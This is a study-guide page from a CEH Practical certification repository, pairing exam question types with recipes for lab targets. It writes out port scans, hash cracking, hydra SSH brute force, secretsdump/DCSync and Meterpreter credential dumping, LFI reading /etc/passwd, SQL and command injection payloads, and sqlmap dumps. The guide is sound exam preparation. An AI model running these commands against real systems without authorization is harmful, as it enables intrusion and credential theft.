

repository: morandeirachema/CyberCerts · page: certs/ceh/practical/challenge-playbooks/index.html · generator: mkdocs

# CEH Practical — Challenge Playbooks

> The Practical asks a **specific question** per challenge; each maps to a repeatable recipe. Read the question, match it to a pattern below, run the recipe, read the answer off the output. All commands target **your own lab / the exam range only**. Set `T=<target-ip>` first to keep it fast. Deeper technique: [`../resources/deep-references.md`](../resources/deep-references.md).

> **The meta-rule:** the question usually names the artifact (a password, version, file, flag) *and* hints the technique. Don't over-think — pattern-match and execute.

---

## "What OS / open ports / service version / FQDN is host X?"
```bash
nmap -sn 192.168.56.0/24                 # find hosts (if given a range)
sudo nmap -sS -p- --min-rate 2000 $T -oA t   # all ports fast
sudo nmap -sV -sC -O -p <open> $T            # versions + OS + scripts
nmap --script smb-os-discovery -p445 $T      # FQDN/OS via SMB
```
**Answer** = read the exact `Service`/`Version`/`OS details`/hostname string. Watch exact wording (e.g., `Apache httpd 2.4.49`).

## "What is the password of user X?" / "Crack the hash"
```bash
hashid '<hash>'                              # 1) identify the type
hashcat -m <mode> hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
john --format=<fmt> hash.txt --wordlist=/usr/share/wordlists/rockyou.txt ; john --show hash.txt
# online against a live service:
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://$T -t 4 -f
```
Common modes: `0` MD5 · `100` SHA1 · `1000` NTLM · `1800` sha512crypt(`$6$`) · `3200` bcrypt(`$2`) · `5600` NetNTLMv2 · `13100` Kerberos · `22000` WPA. **Answer** = the cracked plaintext.

## "What is the NTLM / password hash of user X?"
```bash
# from a foothold / with creds:
impacket-secretsdump <domain>/<user>:'<pw>'@$T          # SAM + domain (DCSync)
# in Meterpreter:  hashdump   |   load kiwi ; lsa_dump_sam
```
**Answer** = the hash string (often the NT half after the `:`).

## "Read the contents of / find the flag in file Z"
Try, in order of what the box exposes:
```bash
# LFI / path traversal on a web param:
curl "http://$T/index.php?page=../../../../etc/passwd"
# SQLi file read (MySQL):  ... UNION SELECT LOAD_FILE('/path'),2 -- -
# command injection:       127.0.0.1; cat /flag
# after a shell:           find / -name 'flag*' 2>/dev/null ; cat /root/flag.txt
```
**Answer** = the file contents / flag string exactly.

## "Which database / table / what is value V?" (SQL injection)
```bash
# manual: detect ' , count cols (ORDER BY n), UNION, then dump:
#   1' UNION SELECT user,password FROM users -- -
# automated:
sqlmap -u "http://$T/vuln.php?id=1" --batch --dbs
sqlmap -u "http://$T/vuln.php?id=1" --batch -D <db> -T <table> -C <col> --dump
```
**Answer** = the extracted value (crack it further if it's a hash).
